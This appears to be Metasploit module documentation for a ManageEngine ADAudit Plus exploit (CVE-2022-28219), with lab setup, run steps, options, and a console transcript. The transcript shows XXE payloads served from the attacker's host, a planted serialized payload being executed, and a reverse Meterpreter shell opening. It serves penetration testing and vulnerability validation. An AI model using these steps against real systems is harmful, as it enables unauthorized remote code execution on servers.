 ## Vulnerable Application

The vulnerable application is ManageEngine ADAudit Plus prior to build 7060. I built and tested this on build 7055, which, at least at the time of this writing, you can download [here](https://archives2.manageengine.com/active-directory-audit/). It's a .exe file that you can install with all the defaults.

You also need to configure ADAudit to actually audit a domain. That means setting up a domain (I created a domain controller in the lab), and configuring ADAudit to scan that domain. That domain name must be set to the `DOMAIN` when using this exploit.

The last thing is, three connect-back ports must be open from the target back to Metasploit (in addition to whatever payload ports). By default, we use ports 8080 and 8888 for HTTP, and 2121 for FTP.

## Verification Steps

1. Install the application
2. Do: `set RHOSTS <IP>`
3. Do: `set DOMAIN <DOMAIN_NAME>`
4. Do: `exploit`
5. You should get a meterpreter session

## Scenarios

```
msf6 > use exploit/windows/http/manageengine_adaudit_plus_cve_2022_28219
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > set RHOSTS 10.0.0.148
RHOSTS => 10.0.0.148
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > set DOMAIN ad.example.local
DOMAIN => ad.example.local
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The vulnerable endpoint responds with HTTP/200.
[*] Attempting to exploit XXE to get a list of users
[*] Using URL: http://10.0.0.146:8080/KEmvnPFxS.dtd
[*] User accounts discovered: Ron
[*] Enumerating old payloads cached on the server (to skip later)
[*] Using URL: http://10.0.0.146:8080/NvkXTJXRyhV.dtd
[*] Attempting to exploit XXE to store our serialized payload on the server
[*] Trying to find our payload in all users' temp folders
[*] Using URL: http://10.0.0.146:8080/ppVHiihu.dtd
[*] Executing payload: /users/Ron/appdata/local/temp/jar_cache4413164256015023251.tmp...
[*] Sending stage (175686 bytes) to 10.0.0.148
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.148:52347) at 2022-07-07 15:19:59 -0700

meterpreter >
```

## Options

### TARGETURI_DESERIALIZATION / TARGETURI_XXE

The target URLs - probably won't ever need to be changed

### DOMAIN

A domain that the target monitors. We cannot validate this, but if the exploit should work and doesn't, this might be the issue.

### SRVPORT / SRVPORT_FTP / SRVPORT_HTTP2

The connect-back ports.

* `SRVPORT` is used to host XXE payloads
* `SRVPORT_HTTP2` is used for an XXE payload that is held open, creating a temporary file on the server
* `SRVPORT_FTP` is used for a fake off-spec FTP server that receives a directory listing also via XXE

# PATH_TRAVERSAL_DEPTH

The number of `../` to add to the request

# FtpCallbackTimeout / HttpUploadTimeout

How long to wait for FTP or HTTP responses before giving up
